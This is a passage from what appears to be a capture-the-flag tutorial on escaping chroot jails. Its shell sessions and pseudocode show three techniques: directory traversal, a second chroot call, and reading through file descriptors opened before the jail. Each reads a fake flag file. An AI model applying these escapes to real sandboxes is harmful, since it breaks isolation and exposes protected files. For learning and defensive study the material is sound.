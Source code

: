$ ./program  # start from anywhere outside of /tmp/jail
<strong># cat ../../flag  # directory traversal is still possible
</strong>CTF{f4k3_fl4g_f0r_t3st1ng}
</code></pre>

<details><summary><a data-mention href="shellcode.md">shellcode.md</a> (Assembly - <code>readfile.s</code>)</summary></details>

#### Overwrite `chroot()`

Another big problem is that you can only have **one chroot at a time**, meaning if another chroot is started the previous one will be forgotten. Remember that only users with the `CAP_SYS_CHROOT` capability can call it, but if you are able to it is trivial to escape the jail, even from inside it. This can be done by **moving the jail to somewhere you are not**, such as a new directory you make.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session">$ ./program             # this time chroot() and chdir() are called
<strong># cat ../../flag  # first attempt fails because ../ inside jail doesn't work
</strong>/tmp/jail/flag: No such file or directory
<strong># mkdir new_dir
</strong><strong># chroot new_dir        # set chroot() to a new directory you are not in
</strong><strong># cat ../../flag  # now ../ is not restricted
</strong>CTF{f4k3_fl4g_f0r_t3st1ng}
</code></pre>

<details><summary><a data-mention href="shellcode.md">shellcode.md</a> (Assembly - <code>mkdir-chroot.s</code>)</summary></details>

#### Open Resources

The last trick is utilizing **already-opened resources** that are outside the jail, which you can still interact with. If you are able to `open` the `/flag` file before being jailed for example, you can still read from the file descriptor it has (starts at 3).&#x20;

```c
// === Somewhere earlier in the program ===
open("/flag")  // -> returns 3 as fd
chroot(...)
// === In the shellcode ===
//sendfile(int out_fd, int in_fd, off_t *offset, size_t count)
sendfile(1, 3, 0, 100)
```

<details><summary><a data-mention href="shellcode.md">shellcode.md</a> (Assembly - <code>fd-sendfile.s</code>)</summary></details>

The same goes for open directories, where you can use it as a different _relative_ directory using syscalls like `openat` instead of `open`, or `fchmodat` instead of `chmod`.&#x20;

```c
// === Somewhere earlier in the program ===
open("/any/path")  // -> returns 3 as fd
chroot(...)
// === In the shellcode ===
//sendfile(int out_fd, int in_fd, off_t *offset, size_t count)
fd = openat(3, "../../flag", 0)  // -> returns 4 as fd
sendfile(1, fd, 0, 100)
```
